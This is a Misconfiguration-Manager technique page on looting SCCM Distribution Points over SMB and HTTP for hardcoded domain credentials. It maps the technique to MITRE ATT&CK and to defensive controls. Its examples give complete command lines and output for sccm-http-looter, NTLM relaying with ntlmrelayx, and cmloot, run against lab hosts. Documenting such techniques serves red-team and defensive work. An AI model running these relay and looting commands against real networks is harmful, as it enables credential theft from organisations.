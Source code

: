 ```yaml
---
title: 'CRED-6'
description: 'Loot domain credentials, SSH keys, and more from SCCM Distribution Points (DP)'
source: 'subat0mik/Misconfiguration-Manager'
---
```


## MITRE ATT&CK TTPs
- [TA0006 - Credential Access](https://attack.mitre.org/tactics/TA0006)
- [T1078.002 - Valid Accounts: Domain Accounts](https://attack.mitre.org/techniques/T1078/002/)

## Requirements
One of the following:
- Network access to SCCM SMB service (445/TCP) on a DP
- Network access to SCCM HTTP service (80/TCP or 443/TCP) on a DP

AND Credentials are likely to be required **but not always**

## Summary
A distribution point (DPs) is a server role used by SCCM to host the various files used in software installs, patches, script deployments, etc. By default, these servers allow access via SMB (TCP/445) and HTTP/S (TCP/80 and/or TCP/443) and require some type of Windows authentication (i.e. NTLM).

IT professionals and software engineers have a tendency of hardcoding credentials in scripts, configuration files, software, etc.

Therefore, we can loot the SCCM DP and extract valid credentials as authenticated (and sometimes unauthenticated) attackers.

#### SMB
The `C:\SCCMContentLib` folder is shared via SMB as the `SCCMContentLib$` SMB share and is accessible to any member of the Domain Users or Domain Computers groups. The file structure of the `C:\SCCMContentLib` folder is explained [here](https://github.com/badsectorlabs/sccm-http-looter/DEFCON32_RTV_How-Ludu-%20made-it-rain-creds-from-SCCM.pdf)

#### HTTP
The IIS web server hosted on the distribution point defines a virtual directory, `SMS_DP_SMSPKG$`, which maps to the `C:\SCCMContentLib` folder explained above. The web server will perform all the file structure processing for us, allowing to retrieve resources belonging to a package through HTTP (that are by default domain-authenticated with Kerberos/NTLM, as all interactions to fetch external resources from the distribution point).

URL format to list the subdirectories and files in a package: `http://<DP>/sms_dp_smspkg$/<PackageID>/`

Retrieving a file in a package: `http://<DP>/sms_dp_smspkg$/<PackageID>/<filename>`

## Impact
If anonymous authentication (no credentials required) is enabled, an attacker can dump the DP files and analyze its contents for valid credentials. NTLM relaying is still possible under proper conditions.

If authentication is required: An internal attacker can use existing credentials to authenticate to the SMB/HTTP services to loot the Distribution Points.

## Defensive IDs

- [PREVENT-10: Enforce the principle of least privilege for accounts](../../../defense-techniques/PREVENT/PREVENT-10/prevent-10_description)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description)

## Examples
#### HTTP DP Looting (Anonymous Authentication Enabled)
```bash
# Using Regular Method
┌──(.env)─(root㉿AR-kali)-[/opt/sccm-http-looter]
└─# ./sccm-http-looter -server 10.2.10.12
2024/08/15 22:47:57 INFO SCCM HTTP Looter by Bad Sector Labs (@badsectorlabs)
2024/08/15 22:47:57 INFO Getting Datalib listing from http://10.2.10.12:80/SMS_DP_SMSPKG$/Datalib...
2024/08/15 22:47:57 INFO Found 12 Directories in the Datalib
2024/08/15 22:47:57 INFO SCCM Looting complete!


# Using signature files to extract file names

┌──(.env)─(root㉿AR-kali)-[/opt/sccm-http-looter]
└─# ./sccm-http-looter -server 10.2.10.12 -use-signature-method
2024/08/15 22:48:02 INFO SCCM HTTP Looter by Bad Sector Labs (@badsectorlabs)
2024/08/15 22:48:02 INFO Getting Datalib listing from http://10.2.10.12:80/SMS_DP_SMSPKG$/Datalib...
2024/08/15 22:48:02 INFO SCCM Looting complete!
```

#### HTTP DP Looting (NTLMRelayx to HTTP endpoint)
Currently, you can use the following version of [impacket](https://github.com/ar0dd/impacket). There is a pending [Pull Request](https://github.com/fortra/impacket/pull/1790) (as of 14 August, 2024) to include this into the main `impacket` repository.

Just run your server and wait for authentication to take place.

```bash
└─# python3 examples/ntlmrelayx.py -t http://10.2.10.12/SMS_DP_SMSPKG$/Datalib --sccm --sccm-dp-dump -smb2support
Impacket v0.12.0.dev1+20240801.104651.6d8dd858 - Copyright 2023 Fortra

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.2.10.13, attacking target http://10.2.10.12
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.2.10.12 as LUDUS/SCCM-SQL$ SUCCEED
[*] Dumping SCCM Distribution Point Files
[*] Getting Datalib listing...
[*] Getting Datalib listing from http://10.2.10.12/SMS_DP_SMSPKG$/Datalib...
[*] Data saved to 10.2.10.12_sccm_dump/Datalib.txt
[*] Extracting file names from Datalib listing...
[*] Getting file signatures...
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from 10.2.10.13 controlled, but there are no more targets left!
[*] SCCM DP Looting complete!
```

#### SMB DP Looting (With Domain Credentials)
```bash
# Create a loot inventory for a specific Distribution Point (DP)
┌──(root㉿AR-kali)-[/opt/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser@10.2.10.12 -cmlootinventory sccmfiles.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[+] Access to SCCMContentLib on 10.2.10.12
[+] sccmfiles.txt created

# Review + then download the sccmfiles contents
┌──(root㉿AR-kali)-[/opt/cmloot]
└─# python3 cmloot.py ludus.domain/domainuser@10.2.10.12 -cmlootdownload sccmfiles.txt
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Password:
[+] sccmfiles.txt exists. Remove it if you want to recreate the inventory.
[+] Extensions to download ['XML', 'INI', 'CONFIG', 'PS1', 'VBS']
[+] Already downloaded F906-ep_defaultpolicy.xml
[+] Already downloaded 7CEE-configure-baseline.ps1

# Analyze your loot
┌──(root㉿AR-kali)-[/opt/cmloot]
└─# ls CMLootOut
7CEE-configure-baseline.ps1  F906-ep_defaultpolicy.xml
```

## References
- Tomas Rzepka, [Looting Microsoft Configuration Manager](https://rzec.se/blog/looting-microsoft-configuration-manager/)
- Tomas Rzepka, [CMLoot](https://github.com/1njected/CMLoot)
- Erik Hunstad, [sccm-http-looter](https://github.com/badsectorlabs/sccm-http-looter)
- Alberto Rodriguez, [ntlmrelayx](https://github.com/fortra/impacket/pull/1790)
- Quentin Roland, [sccmsecrets.py](https://www.synacktiv.com/publications/sccmsecretspy-exploiting-sccm-policies-distribution-for-credentials-harvesting-initial)
- Shelltrail [CMLoot.py](https://github.com/shelltrail/cmloot) & this [blog](https://www.shelltrail.com/research/cmloot/)
